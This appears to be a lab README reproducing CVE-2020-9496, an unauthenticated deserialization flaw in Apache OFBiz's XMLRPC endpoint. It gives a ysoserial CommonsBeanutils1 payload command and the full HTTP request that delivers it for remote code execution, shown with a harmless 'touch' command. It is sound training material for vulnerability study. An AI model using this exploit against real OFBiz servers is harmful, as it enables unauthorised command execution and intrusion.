



# Unsafe deserialization of XMLRPC arguments in ApacheOfBiz (CVE-2020-9496)

[中文版本(Chinese version)](README.zh-cn.md)

Apache OFBiz is an open source enterprise resource planning (ERP) system. It provides a suite of enterprise applications that integrate and automate many of the business processes of an enterprise.

OfBiz exposes an XMLRPC endpoint at `/webtools/control/xmlrpc`. This is an unauthenticated endpoint since authentication is applied on a per-service basis. However, the XMLRPC request is processed before authentication. As part of this processing, any serialized arguments for the remote invocation are deserialized, therefore if the classpath contains any classes that can be used as gadgets to achieve remote code execution, an attacker will be able to run arbitrary system commands on any OfBiz server with same privileges as the servlet container running OfBiz.

References:

1. https://securitylab.github.com/advisories/GHSL-2020-069-apache_ofbiz
2. https://github.com/dwisiswant0/CVE-2020-9496
3. https://www.cnblogs.com/ph4nt0mer/p/13576739.html

## Vulnerable environment

Executing following command to start an Apache OfBiz (17.12.01):

```
docker-compose up -d
```

After a short wait, you can see the login page at `https://your-ip/myportal/control/main`.

## Vulnerability Reproduce

There is no error message in response by default, we can't reproduce the vulnerability using the POC of [reference link 2](https://github.com/dwisiswant0/CVE-2020-9496), so ask [ysoserial](https://github.com/frohoff/ysoserial) for help.

Generate the CommonsBeanutils1 payload:

```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" | base64 | tr -d "\n"
```



Replace the `[base64-payload]` and send the request:

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```



`touch /tmp/success` is succesful executing in the container:


